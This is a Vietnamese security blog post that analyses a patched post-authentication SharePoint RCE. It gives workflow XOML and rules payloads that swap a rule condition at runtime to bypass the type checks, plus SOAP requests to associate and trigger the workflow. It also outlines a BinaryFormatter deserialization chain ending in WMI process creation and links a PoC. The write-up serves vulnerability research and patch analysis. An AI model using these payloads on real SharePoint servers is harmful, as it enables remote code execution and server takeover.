+++
date = '2026-10-09T00:03:00+07:00'
draft = false
title = 'Phân tích CVE-2026-69724: Post-Auth SharePoint RCE'
description = 'nà ná na nà na'
tags = ['sharepoint', 'rce', 'postauth']
+++
Nhân dịp Microsoft công bố gần 1000 CVEs trong các bản vá tháng 9, mình cũng thử sức reproduce một lỗ hổng RCE trên SharePoint được vá trong đợt này. Vì có khá nhiều CVE RCE được công bố nên mình cũng không xác định được mã CVE chính xác cho lỗ hổng mà mình PoC.

# Patch Diff

Trong khi diff hai bản vá KB5002893 (tháng 8) và KB5002908 (tháng 9), mình va phải `ConvertActivity`

Bản vá tháng 9 chặn `ConvertActivty.Execute()` không được xử lý các properties `Value`, `ValueType` và `ReturnValue` nếu chúng là type `RuleConditionReference`. Mình thấy trong `SetVariableActivity` trước đó cũng đã có sẵn đoạn check tương tự, sau bản vá thì 2 thằng dùng chung. Vậy có thể đoán rằng đây là một bản vá bypass.


## What is ConvertActivity?
`ConvertActivity` là một thành phần activity trong SharePoint legacy workflow. Workflow là một chuỗi các công việc được xử lý tự động thì activity giống như một step trong đó. `ConvertActivity` có vai trò nhận một đầu vào `Value`, convert nó sang `ValueType` rồi ghi vào `ReturnValue`. Ví dụ như một activity A trả một object `DateTime` và activity B cần nhận vào một string ngày giờ thì `ConvertActivity` chính là thằng làm nhiệm vụ convert `DateTime` thành `String`.
`Value` và `ReturnValue` đều sử dụng `ActivityBind` để trỏ vào property của activity khác.

# Investigating
Trước tiên cùng tìm hiểu các để tạo và chạy một workflow.
## Upload workflow protocol
Theo tài liệu từ Microsoft [protocol documentation](https://learn.microsoft.com/en-us/openspecs/sharepoint_protocols/ms-wpps/fbd5cb4e-001e-4f39-83f5-1d219c8fac68), tạo một workflow cần 3 bước:
1. Upload workflow markup, rules, và configuration files.
2. Gọi SOAP WebService **ValidateWorkflowMarkupAndCreateSupportObjects** để validate workflow và tạo các supporting objects.
3. Gán workflow đó cho một list.
### Upload workflow files
Một workflow setup cần 3 file: XOML markup, rules và config. File XOML đầu tiên là file định nghĩa các bước cho workflow, chính là các activity và thứ tự thực thi của chúng. File rules định nghĩa các condition phục vụ cho các activity dạng như `IfElseActivity` chẳng hạn, `if(condition)` thì condition sẽ nằm trong rules và được ref vào XOML markup. File config thì setup ID với target list của workflow. 

Ta có thể upload files của workflow thông qua SharePoint web UI.
Đầu tiên, tạo một document library.

Rồi tạo folder để chứa workflow files.

Upload các file markup và rules files lên.

File mẫu có dạng thế này:
```xml title:markup
<?xml version="1.0" encoding="utf-8"?>
<sp:RootWorkflowActivityWithData
    x:Class="Microsoft.SharePoint.Workflow.ROOT"
    x:Name="ROOT"
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/workflow"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:sp="clr-namespace:Microsoft.SharePoint.WorkflowActions;Assembly=Microsoft.SharePoint.WorkflowActions, Version=16.0.0.0, Culture=neutral, PublicKeyToken=71e9bce111e9429c">
    <IfElseActivity x:Name="ifElseTest">
        <IfElseBranchActivity x:Name="branch_target">
            <IfElseBranchActivity.Condition>
                <RuleConditionReference ConditionName="AlwaysTrue" />
            </IfElseBranchActivity.Condition>
            <sp:LogToHistoryListActivity x:Name="logTaken"
                HistoryDescription="SIMPLE_RULE_TRUE" />
        </IfElseBranchActivity>
    </IfElseActivity>
</sp:RootWorkflowActivityWithData>
```
```xml title:rules
<?xml version="1.0" encoding="utf-8"?>
<RuleDefinitions
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/workflow"
    xmlns:cd="clr-namespace:System.CodeDom;Assembly=System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
    xmlns:sys="clr-namespace:System;Assembly=mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <RuleDefinitions.Conditions>
        <RuleExpressionCondition Name="AlwaysTrue">
            <RuleExpressionCondition.Expression>
                <cd:CodePrimitiveExpression>
                    <CodePrimitiveExpression.Value>
                        <sys:Boolean>true</sys:Boolean>
                    </CodePrimitiveExpression.Value>
                </cd:CodePrimitiveExpression>
            </RuleExpressionCondition.Expression>
        </RuleExpressionCondition>

    </RuleDefinitions.Conditions>
</RuleDefinitions>
```
Sau khi upload các files xoml lên ta cần lấy một số thông tin thì mới tạo được file config.
- `DocLibID`: ID của document library chứa workflow folder.
- `ListID`: ID của list mà workflow sẽ chạy.
Lấy `ListID` từ:
`http://spse/sites/Spider/_api/web/lists/GetByTitle('List')?$select=Id`
Lấy `DocLibID` từ:
`http://spse/sites/Spider/_api/web/lists/GetByTitle('Workflows')?$select=Id`

Rồi sẽ tạo được file config như thế này.
```xml title:config
<?xml version="1.0" encoding="utf-8"?>
<WorkflowConfig>
    <Template
        BaseID="{4e196bc1-6ed2-424e-b113-d91a139f5255}"
        DocLibID="{b22ed0e2-2ea0-4d5a-b0af-cd1c09e8bca2}"
        XomlHref="Workflows/wf01/SimpleWorkflowSample.xoml"
        XomlVersion="V1.0"
        RulesHref="Workflows/wf01/SimpleWorkflowSample.xoml.rules"
        RulesVersion="V1.0">
        <Categories />
        <MetaData>
            <AssociateOnActivation>false</AssociateOnActivation>
        </MetaData>
    </Template>
    <Association
        ListID="{cdeff5b4-e4f3-4e0b-8d6d-b52df61c04fd}"
        TaskListID="{18f1521b-1643-442c-a069-25b16bde9a63}"
        HistoryListID="{741ec60f-e333-43be-906a-e6c0bd4dba5e}"
        StartManually="true"
        StartOnCreate="false"
        StartOnChange="false" />
    <ContentTypes />
    <Initiation URL="">
        <Fields />
        <Parameters />
    </Initiation>
</WorkflowConfig>
```
`BaseID` là workflow template GUID, mình tự gen. `TaskListID` và `HistoryListID` xác định  task và history lists, cái này để bừa cũng được.
Upload file config vào chung folder với file markup và rules.

### Validate and Associate
Theo MS thì cần phải gọi đến SOAP WebService `ValidateWorkflowMarkupAndCreateSupportObjects` trước khi liên kết workflow với list. Tuy nhiên trong quá trình thử nghiệm thì mình thấy với các workflow không quá phức tạp thì có thể gọi thẳng `AssociateWorkflowMarkup` luôn.

`AssociateWorkflowMarkup` là một `[WebMethod]` trong `WebPartPagesWebService`, nên ta có thể gọi đến nó thông qua SOAP. Request mẫu:
```HTTP
POST /sites/Spider/_vti_bin/WebPartPages.asmx HTTP/1.1
Host: spse
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://microsoft.com/sharepoint/webpartpages/AssociateWorkflowMarkup"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <AssociateWorkflowMarkup xmlns="http://microsoft.com/sharepoint/webpartpages">
      <configUrl>Workflows/wf01/SimpleWorkflowSample.xoml.wfconfig.xml</configUrl>
      <configVersion>V1.0</configVersion>
    </AssociateWorkflowMarkup>
  </soap:Body>
</soap:Envelope>
```
Liên kết thành công sẽ trả về request như sau:


Phần này cũng không có gì nhiều nên mình sẽ skip và đi đến phần tiếp theo.
### Trigger the workflow
Khi đã liên kết workflow xong thì ta có thể gọi đến `StartWorkflow` SOAP method để chạy workflow đó (thực ra khi setup cũng có thể cho workflow tự chạy khi có list item được tạo ra, nhưng trigger manual cho dễ :)))).

Example request:
```HTTP title:"trigger workflow request"
POST /sites/Spider/_vti_bin/Workflow.asmx HTTP/1.1
Host: spse
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://schemas.microsoft.com/sharepoint/soap/workflow/StartWorkflow"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <StartWorkflow xmlns="http://schemas.microsoft.com/sharepoint/soap/workflow/">
      <item>http://spse/sites/Spider/Lists/List/1_.000</item>
      <templateId>{WORKFLOW-ASSOCIATION-GUID}</templateId>
      <workflowParameters><root /></workflowParameters>
    </StartWorkflow>
  </soap:Body>
</soap:Envelope>
```
`<workflowParameters>` cung cấp các parameter mà workflow cần. `<root />` tức là workflow này không cần sử dụng parameter đầu vào nào.
For example:
```xml
<workflowParameters>
  <root>
    <ApprovalRequired>true</ApprovalRequired>
    <Requestor>namnh</Requestor>
  </root>
</workflowParameters>
```
`<item>` là list item mà workflow thực thi trên đó, workflow sẽ có được context của item đó khi thực thi. Ta có thể lấy item link trên giao diện.

Link copy được có dạng `http://spse/sites/Spider/Lists/List/DispForm.aspx?ID=1`. Rồi ta sẽ phải chuyển nó thành dạng thế này `http://spse/sites/Spider/Lists/List/1_.000` thì mới dùng cho request trigger workflow được.

`<templateId>` cần ID của association mà ta đã tạo trước đó. Query `/sites/Spider/_api/web/lists/GetByTitle('List')/WorkflowAssociations?$select=Id,BaseId,Name` để lấy.

Trong ví dụ này, association ID là `2ed2ddc2-7f6e-42ca-a3e8-28c86ad22c64`.
Rồi start workflow.

Đặt một breakpoint vào `StartWorkflow` để theo dõi request.

SharePoint resolve các file markup và rules từ IDs.

SharePoint thiết lập context, đăng ký event, ... rồi bắt đầu thực thi workflow.

Nó tạo một workflow instance.

`CreateInstance()` load assembly được tạo từ xoml markup.

Nếu assembly này được compile rồi thì dùng lại còn không SharePoint sẽ gọi `SPNoCodeXomlCompiler.LoadXomlAssembly()` để compile assembly mới.


Nội dung file markup và rules được lấy ra.

Trước khi gen assembly, `SPNoCodeXomlCompiler.CompileBytes()` kiểm tra markup và rules với `IsGoodWorkflow()` xem có hợp lệ hay không.

Hàm này kiểm tra xem các type trong XML element có nằm trong `authorizedTypes` không.
File `web.config` của application pool định nghĩa `authorizedTypes` dạng như sau:
```xml
<configuration>
  <System.Workflow.ComponentModel.WorkflowCompiler>
    <authorizedTypes>
      <targetFx version="v4.0">
        <authorizedType
          Assembly="..."
          Namespace="..."
          TypeName="..."
          Authorized="True" />
      </targetFx>
    </authorizedTypes>
  </System.Workflow.ComponentModel.WorkflowCompiler>
</configuration>
```

Đối với XOML elements, `IsGoodWorkflow()` gọi `SPNoCodeXomlCompiler.IsAuthorizedType()`.

Namespace không có `clr-namespace` sẽ pass luôn mà không cần kiểm tra. 
Đối với CLR namespace, nó tìm xem type đó có nằm trong `authorizedTypes` không.
Sau đó có thêm một số đoạn kiểm tra nữa:

Sau đó thì kiểm tra đến element value.

Kiểm tra cả element attribute.

Logic kiểm tra được áp dụng cho cả markup và rules.
Compiler sau đó kiểm tra đến `ActivityBind`.

`ActivityBind` có thể hiểu như tham chiếu property của activity này đến một property của activity khác, giống như con trỏ. Ví dụ:
```xml
<sp:RootWorkflowActivityWithData x:Name="ROOT">
  <sp:RootWorkflowActivityWithData.WorkflowFields>
    <sp:WorkflowDataField Name="__workflowProperties"
      Type="Microsoft.SharePoint.Workflow.SPWorkflowActivationProperties, Microsoft.SharePoint" />
  </sp:RootWorkflowActivityWithData.WorkflowFields>

  <sp:OnWorkflowActivated
    WorkflowProperties="{ActivityBind ROOT,Path=__workflowProperties}" />
</sp:RootWorkflowActivityWithData>
```
Ở đây, root định nghĩa `__workflowProperties`, và `OnWorkflowActivated.WorkflowProperties` trỏ tới property đó.

Sau pre-parse checks, `CompileBytes()` igọi WF compiler thông qua `DoCompileNewAppDomain()`. Ở compile-time còn kiểm tra thêm activities và rule. Ở bước này sẽ còn kiểm tra thêm các type được resolve trong quá trình compile nữa. Ví dụ như một rule có thể gọi đến `this.__workflowProperties.Web`, có type là `SPWeb` bằng cách như sau:
```xml
<?xml version="1.0" encoding="utf-8"?>
        <RuleDefinitions
            xmlns="{NS_WF}"
            xmlns:cd="{NS_CD}">
            <RuleDefinitions.Conditions>
                <RuleExpressionCondition Name="UnauthorizedPropertyType">
                    <RuleExpressionCondition.Expression>
                        <cd:CodeBinaryOperatorExpression Operator="IdentityInequality">
                            <CodeBinaryOperatorExpression.Left>
                                <cd:CodePropertyReferenceExpression PropertyName="Web">
                                    <CodePropertyReferenceExpression.TargetObject>
                                        <cd:CodeFieldReferenceExpression FieldName="__workflowProperties">
                                            <CodeFieldReferenceExpression.TargetObject>
                                                <cd:CodeThisReferenceExpression />
                                            </CodeFieldReferenceExpression.TargetObject>
                                        </cd:CodeFieldReferenceExpression>
                                    </CodePropertyReferenceExpression.TargetObject>
                                </cd:CodePropertyReferenceExpression>
                            </CodeBinaryOperatorExpression.Left>
                            <CodeBinaryOperatorExpression.Right>
                                <cd:CodePrimitiveExpression />
                            </CodeBinaryOperatorExpression.Right>
                        </cd:CodeBinaryOperatorExpression>
                    </RuleExpressionCondition.Expression>
                </RuleExpressionCondition>
            </RuleDefinitions.Conditions>
        </RuleDefinitions>
```
Rule validator sẽ kiểm tra



`SPWeb` không phải là một authorized type nên sinh ra lỗi.


Có thể hiểu đơn giản flow compile workflow như sau:

Ảnh bên trên cũng cho ta một chi tiết thú vị, `Validate()` chỉ được gọi duy nhất từ `ruleConditionCollection[ruleConditionReference.ConditionName]`. Tức là  chỉ có rule mà `RuleConditionReference` trỏ đến mới bị kiểm tra, các file rule khác trong file rules thì không.

Khi workflow compile thành công thì nó sẽ bắt đầu thực thi.

Khi activity thực thi condition `RuleConditionReference`, Nó lại validate condition này một lần nữa.

Tuy nhiên quá trình này lại không quan tâm đến việc type có nằm trong `authorizedType` hay không nữa, mà cứ thế cho pass qua.
Vậy nên đến đây ta có một ý tưởng bằng cách nào đó ruleCondition lúc compile là rule A bình thường, rồi đến khi thực thi ta đổi ruleCondition sang rule B chứa type mà đáng lẽ ra không được phép để thực thi logic của ta muốn. Đây là lúc mà `ConvertActivity` tham gia cuộc chơi. Ý tưởng của ta có thể được triển khai như sau:
```xml
<sp:RootWorkflowActivityWithData.WorkflowFields>
            <sp:WorkflowDataField Name="__context"
                Type="Microsoft.SharePoint.WorkflowActions.WorkflowContext, Microsoft.SharePoint.WorkflowActions, Version=16.0.0.0, Culture=neutral, PublicKeyToken=71e9bce111e9429c" />
            <sp:WorkflowDataField Name="__workflowProperties"
                Type="Microsoft.SharePoint.Workflow.SPWorkflowActivationProperties, Microsoft.SharePoint, Version=16.0.0.0, Culture=neutral, PublicKeyToken=71e9bce111e9429c" />
            <sp:WorkflowDataField Name="RcrHolder"
                Type="System.Workflow.Activities.Rules.RuleConditionReference, System.Workflow.Activities, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" />
        </sp:RootWorkflowActivityWithData.WorkflowFields>

        <sp:ConvertActivity x:Name="captureCondition"
            Value="{ActivityBind branch_target,Path=Condition}"
            ValueType="System.Workflow.ComponentModel.ActivityCondition, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35"
            ReturnValue="{ActivityBind ROOT,Path=RcrHolder}"
            __Context="{ActivityBind ROOT,Path=__context}" />

        <sp:ConvertActivity x:Name="changeCondition"
            Value="AlwaysTrue"
            ValueType="System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
            ReturnValue="{ActivityBind ROOT,Path=RcrHolder.ConditionName}"
            __Context="{ActivityBind ROOT,Path=__context}" />

        <IfElseActivity x:Name="ifElseTest">
            <IfElseBranchActivity x:Name="branch_target">
                <IfElseBranchActivity.Condition>
                    <RuleConditionReference ConditionName="AlwaysFalse" />
                </IfElseBranchActivity.Condition>
                <sp:LogToHistoryListActivity x:Name="logTaken"
                    HistoryDescription="CONDITION_SWITCHED_TO_TRUE" />
            </IfElseBranchActivity>
            <IfElseBranchActivity x:Name="branch_else">
                <sp:LogToHistoryListActivity x:Name="logElse"
                    HistoryDescription="CONDITION_REMAINED_FALSE" />
            </IfElseBranchActivity>
        </IfElseActivity>
```
```xml
<RuleDefinitions
            xmlns="{NS_WF}"
            xmlns:cd="{NS_CD}"
            xmlns:sys="{NS_SYS}">
            <RuleDefinitions.Conditions>
                <RuleExpressionCondition Name="AlwaysFalse">
                    <RuleExpressionCondition.Expression>
                        <cd:CodePrimitiveExpression>
                            <CodePrimitiveExpression.Value>
                                <sys:Boolean>false</sys:Boolean>
                            </CodePrimitiveExpression.Value>
                        </cd:CodePrimitiveExpression>
                    </RuleExpressionCondition.Expression>
                </RuleExpressionCondition>
                <RuleExpressionCondition Name="AlwaysTrue">
                    <RuleExpressionCondition.Expression>
                        <cd:CodePrimitiveExpression>
                            <CodePrimitiveExpression.Value>
                                <sys:Boolean>true</sys:Boolean>
                            </CodePrimitiveExpression.Value>
                        </cd:CodePrimitiveExpression>
                    </RuleExpressionCondition.Expression>
                </RuleExpressionCondition>
            </RuleDefinitions.Conditions>
        </RuleDefinitions>
```
`ConvertActivity` đầu tiên có thể hiểu đơn giản là tạo 1 con trỏ `RcrHolder` trỏ vào `branch_target.Condition`; cái thứ hai thì khi chuỗi `AlwaysTrue` (tên condition mới) vào `RcrHolder.ConditionName`. Không binding `branch_target.Condition.ConditionName` trực tiếp được vì kiểu khởi tạo của `Condition` là `ActivityCondition` thì lại không có `ConditionName`.
Hãy thử debug payload trên. Ở compile time, validator checks `AlwaysFalse`.

Tại runtime, `ConvertActivity` thay đổi `ConditionName`.

`RuleConditionReference.Evaluate()` sau đó sẽ thực thi `AlwaysTrue` thay vì `AlwaysFalse`.


Trước `ConvertActivity`

Sau `ConvertActivity`

Vậy là ý tưởng của ta đã thành công. Tuy nhiên ta vẫn chưa thể gọi `Process.Start()` vì nó sẽ bị fail ngay vì nó không pass qua được pre-parse check.

# POC

Mất tận 2 tuần mình mới tìm được một method thú vị `System.Workflow.ComponentModel.Activity.Load(Stream, Activity)`
```C#
// System.Workflow.ComponentModel.Activity
// Token: 0x060000F9 RID: 249 RVA: 0x0000700C File Offset: 0x0000520C
public static Activity Load(Stream stream, Activity outerActivity)
{
	return Activity.Load(stream, outerActivity, Activity.binaryFormatter);
}
```

Method này cho phép ta deserialize một Stream. Ta không nhúng được một Stream vào file markup, tuy nhiên ta lại có thể upload một file document chứa serilized data và thực thi workflow trên nó, khi đó tra có thể tạo ra một Stream từ document thông qua `__workflowProperties.Item.File.OpenBinaryStream()`.

Để có được RCE, exploit của ta cần 2 stage.
1. Set `System.Workflow.ComponentModel.AppSettings.disableActivitySurrogateSelectorTypeCheck` thành `true` sử dụng payload được gen từ `ysonet`.
2.  `Activity.Load()` deserialize document bytes, chain deserialize bên trong sẽ load một assembly và thực thi constructor:
```text
Activity.Load(
                   __workflowProperties.Item.File.OpenBinaryStream(),
                   this
                 )
                    → outer BinaryFormatter.Deserialize(document bytes)
                    → DataSet deserialization constructor
                    → DataSet.DeserializeDataSet()
                    → DataSet.DeserializeDataSetSchema()
                         → read "DataSet.Tables_0" byte[]
                         → inner BinaryFormatter.Deserialize(byte[])
                         → ObjectSerializedRef.GetRealObject()
                         → ObjectSerializedRef.OnDeserialization()
                         → Hashtable.OnDeserialization()
                         → Hashtable.Insert() encounters duplicate key
                         → formats duplicate-key error
                         → DesignerVerb.ToString()
                         → DesignerVerb.get_Text()
                         → MenuCommand.Properties["Text"]
                         → AggregateDictionary.get_Item("Text")
                         → enumerate PagedDataSource
                         → enumerate nested LINQ iterators:
                              byte[] → Assembly.Load(byte[])
                                     → Assembly.GetTypes()
                                     → type enumerator
                                     → Activator.CreateInstance(type)
                         → WorkflowCommand..ctor()
                              → RevertToSelf()
                              → WMI Win32_Process.Create(command)
```

Để hiểu được callstack trên và tại sao phải disable `ActivitySurrogateSelector`, mình khuyên bạn đọc nên tự decompile/debug thì sẽ có cái nhìn rõ hơn.
Sau đó thì năn nỉ "bạn thân" cook cho một cái script rồi đem chạy.




PoC: https://gist.github.com/huynambka/721c5d0f87e6e736eb68153b1931cd7c

Để có thể khai thác được lỗ hổng này yêu cầu cần compromised được một user có quyền **ManageList** để có thể tạo và chạy được workflow.

Tuy nhiên với SharePoint được config cho phép người dùng tự tạo site được tại `/my` thì gần như mọi authenticated user đều có thể exploit.

Mọi thông tin trong bài viết đều đến từ góc nhìn và trải nghiệm cá nhân, nếu có gì sai hoặc cần đính chính mong mọi người cùng góp ý.

Thanks for reading.